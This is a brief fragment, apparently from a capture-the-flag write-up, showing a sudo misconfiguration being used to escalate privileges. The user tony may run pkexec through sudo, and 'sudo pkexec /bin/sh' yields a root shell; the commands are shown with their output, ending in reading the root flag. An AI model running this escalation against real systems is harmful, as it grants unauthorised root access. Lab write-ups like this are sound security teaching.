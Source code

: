 **sudo \-l
**
GTFObins for privesc

pkexec is enabled for user tony

**sudo pkexec /bin/sh
# id
**uid=0\(root\) gid=0\(root\) groups=0\(root\)

**# cat root\.flag**